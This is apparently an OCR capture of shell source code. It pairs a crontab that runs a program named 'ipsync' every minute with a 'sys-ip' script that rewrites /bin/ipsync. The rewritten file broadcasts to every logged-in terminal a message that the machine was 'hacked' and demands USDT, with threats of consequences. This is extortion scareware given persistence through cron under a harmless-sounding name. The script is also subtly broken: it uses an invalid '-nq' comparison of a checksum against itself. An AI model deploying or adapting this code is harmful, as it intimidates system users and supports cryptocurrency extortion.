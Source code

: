 ```bash
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/1 * * * * ipsync


*/1 * * * * date >> /root/time ;echo sleep63 >> /root/time ;sleep 63 ; echo "already sleep 63" >> /root/time

```

```bash
#!/bin/bash
# sys-ip
sleep 1
isyncp_sum_elder=`md5sum /bin/ipsync | awk '{print $1}'`
isyncp_sum=`md5sum /bin/ipsync | awk '{print $1}'`

if [ $isyncp_sum_elder -nq $isyncp_sum ]
then
cat >/bin/ipsync<<-EOF
#!/bin/bash
w | grep pts &>/dev/null
#echo $?
if [ $? != 0 ]
then
        exit 0
fi

for pts_sum in `w | grep pts | awk '{print $2}'`
do
         echo -e "[ $(date) ] \033[32mWhen you receive this message, you have been\033[31m hacked\033[32m, please prepare USDT. We will protect your computer.\033[42;37m \033[31m Otherwise you will get consequences you don't want to see.\033[0m" > /dev/${pts_sum}
done
EOF
chmod 755 /bin/ipsync
fi

sleep 5



```
